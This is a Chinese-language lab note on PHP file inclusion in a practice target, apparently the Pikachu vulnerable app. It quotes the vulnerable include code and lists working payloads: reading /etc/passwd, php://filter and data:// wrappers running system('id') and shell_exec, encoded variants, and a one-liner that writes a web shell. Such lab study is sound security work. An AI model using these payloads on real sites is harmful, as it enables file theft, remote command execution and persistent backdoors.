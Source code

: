 ![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220629225040-9sl3tnv.png)

但它只包含include下的文件，貌似无法使用绝对路径和伪协议了


## 远程文件包含

远程文件包含需要php.ini打开如下配置

`allow_url_include=on`

关键代码

```php
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "$filename";//变量传进来直接包含,没做任何的安全限制
```

从代码可以看出，get传进来直接包含,这里除了可以远程文件包含，还可以使用伪协议

直接使用绝对路径读取文件

`?filename=/etc/passwd`

* 使用php://filter

`filename=php://filter/read=convert.base64-encode/resource=/etc/passwd`

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220630204848-4oyng4z.png)

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220630204923-6tzbrkz.png)

* 使用data://text

`?file=data://text/plain,<?php phpinfo();?>`

执行失败使用url编码

`data://text/plain,<%3fphp+phpinfo()%3b%3f>`

直接使用system函数执行命令

`data://text/plain,<%3fphp+system('id')%3b%3f>`

`data://text/plain,<?php system('id');?>`

shell_exec函数

`data%3atext/plain,<%3fphp+echo+shell_exec("dir")+%3f>`

`data:text/plain,<?php echo shell_exec("dir") ?>`

若遇到一些过滤使用base64编码

`data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+`

这里执行失败，url编码所有字符可执行成功

写入文件，将以下木马url编码后即可写入成功

```php
<?php fputs(fopen('shell.php','w'),'<?php $var=shell_exec($_GET["cmd"]); echo $var ?>');?>
```
